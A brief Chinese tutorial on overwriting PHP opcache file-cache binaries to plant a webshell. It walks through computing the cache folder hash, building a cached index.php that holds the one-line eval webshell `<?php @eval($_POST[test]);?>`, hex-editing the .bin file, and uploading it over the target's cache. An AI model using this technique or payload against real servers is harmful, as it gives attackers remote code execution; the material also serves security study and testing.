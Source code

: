 我们指定了一个缓存目录后，php会把编译好的php字节码文件放到这个缓存目录中。
## 环境
- opcache.enable=1
- 开启`opcache.file_cache_only`
- 禁用用`opcache.validate_timestamps`
## 流程
### 文件夹hash计算
在对缓存文件进行操作前，需要经过一个名称是md5哈希值的文件夹
通过 [hp7-opcache-override.py](https://github.com/GoSecure/php7-opcache-override) 计算 哈希

### 构建恶意文件
本地新建一个 `index.php`,内容是一句话木马`<?php @eval($_POST[test]);?>`，之后访问它。在对应的缓存文件夹里可以看到`index.php.bin`

用十六进制编辑器打开，将`OPCACHE.`后的那串md5哈希值，替换为前一步骤得到的哈希值
### 文件上传覆盖缓存文件
上传后访问index.php就是修改过的缓存内容了



